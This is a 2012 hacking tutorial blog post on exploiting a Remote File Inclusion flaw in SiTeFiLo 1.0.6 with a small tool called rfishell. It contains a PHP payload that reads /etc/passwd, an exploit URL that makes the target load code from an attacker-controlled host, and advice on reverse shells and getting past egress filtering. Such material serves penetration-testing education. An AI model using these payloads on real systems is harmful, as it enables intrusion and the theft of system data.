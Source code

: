```yaml
---
layout: post
title: "Let's kick shell-ish, Part 2: Remote File Inclusion shell"
date: 2012-06-26 18:10:26 -0400
comments: true
categories: hacking coding
redirect_from: /2012/06/lets-kick-shell-ish-part-2-remote-file.html
---
```


In [Part 1](/2012/06/21/lets-kick-shell-ish-part-1-directory-traversal-made-easy/), we talked about getting a shell-like interface when attacking a target vulnerable to directory traversals. We continue with an article on exploiting Remote File Inclusion (RFI) attacks with a shell.

<!--more-->

Typically if you can find an RFI vulnerability, then you can get it to execute a reverse web shell and you're all done. So what's this article about? In some cases, you may encounter a target that has some serious egress filtering enabled, and you can't find an outgoing port to connect back to your netcat instance. Or maybe you don't want to use a reverse shell for whatever reason. Rather than having to manually edit your RFI file to run commands on the target, we'll create a shell-ish interface to make the hacking experience a little more pleasant.

Let's have a look at a basic RFI example. We've discovered a target running the Simple Text-File Login script (SiTeFiLo). Version 1.0.6 is vulnerable to RFI attacks, as detailed in this advisory: [http://www.securityfocus.com/bid/32811/](http://www.securityfocus.com/bid/32811/)

![](/images/2012-06-26/01.png)

According to the advisory, we can specify the location of our own header.inc.php and have the target execute our PHP code. Let's test this. We create a /var/www/header.inc.php.txt file with the following contents:

```
<?php 
print system("cat /etc/passwd");
?>
```

We craft our URL as follows, which will load our header.inc.php.txt into the target and have it execute cat /etc/passwd for us:

```
http://taint.techorganic.com/slogin/slogin_lib.inc.php?slogin_path=http://cactuar.techorganic.com/
```

When we load up that URL on the browser, we see our command get executed, and the contents of /etc/passwd displayed on the screen:

![](/images/2012-06-26/02.png)

Now that we've verified that we can run commands on the server, we grab our PHP reverse shell, rename it to header.inc.php.txt, fire up netcat to listen for connections, refresh the browser, and... nothing.

![](/images/2012-06-26/03.png)

Well as it turns out, this particular target we're attacking only allows inbound and outbound connections on port 80, and blocks everything else. One alternative around this is to host the PHP reverse shell elsewhere, and have netcat listen on port 80 for connections. If this isn't possible, or you don't want to have a reverse shell, here's one possible solution to simplify command execution on the target, without having to modify the PHP file manually.

I call it rfishell for lack of a better term. Much like dirtshell from Part 1 of this post, rfishell provides a shell-ish interface for you to work on, allowing quick command entry and a clean output. Let's check it out. The command we'll use is

```
rfishell -f /var/www/header.inc.php.txt -u "http://taint.techorganic.com/slogin/slogin_lib.inc.php?slogin_path=http://cactuar.techorganic.com/"
```

This tells rfishell to use /var/www/header.inc.php.txt as our PHP file containing the commands we want to run, and the target URL. When we hit Enter, rfishell presents us with a prompt. We'll enter the command

```
cat /etc/passwd
```

and see the results displayed to us:

![](/images/2012-06-26/04.png)

We can enter commands one after another, as if we were logged into the server with a shell:

![](/images/2012-06-26/05.png)

The script itself is very minimal, but definitely expandable. By default, it uses PHP, but you can modify the rfi_template function to tailor it for ASP, JSP, or whatever else. The script requires curl, so make sure you have that installed. You can get the latest version of rfishell from [GitHub](https://github.com/superkojiman/rfishell). 

The script only takes two parameters, the location of the file that will contain the commands to run, and the target URL. Commands you enter on the prompt are turned into PHP code and saved into the file specified with -f, and curl is used to retrieve the results.

Quick and simple; the way shell scripts should be.
